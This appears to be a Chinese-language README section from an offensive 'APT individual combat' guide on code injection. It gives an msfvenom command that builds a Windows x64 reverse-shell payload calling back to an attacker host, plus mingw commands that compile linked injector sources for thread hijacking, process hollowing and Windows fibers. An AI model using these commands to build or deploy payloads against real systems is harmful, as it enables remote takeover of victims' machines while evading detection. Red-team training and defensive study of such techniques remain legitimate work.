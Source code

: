 ## 代码注入

```Bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=攻击者主机地址 LPORT=4444 -f c
```

[msf.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Code_Injection/msf.cpp)

```Bash
x86_64-w64-mingw32-gcc msf.cpp -o msf.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

### 线程劫持

[thread_hijacking.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Code_Injection/thread_hijacking.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 thread_hijacking.cpp -o thread_hijacking.exe -mconsole -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

固定PID

[ThreadHijacking.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Code_Injection/ThreadHijacking.cpp)

[TH.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Code_Injection/TH.cpp)

### 进程空洞

1.

[process-hollowing.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Code_Injection/process-hollowing.cpp)

2.

[process_hollowing.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Code_Injection/process_hollowing.cpp)

3.

[Process-Hollowing](https://github.com/m0n0ph1/Process-Hollowing/)

[ProcessHollowing.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Code_Injection/ProcessHollowing.cpp)

### Windows Fibers

[fibers.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Code_Injection/fibers.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 fibers.cpp -o fibers.exe -mconsole -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```
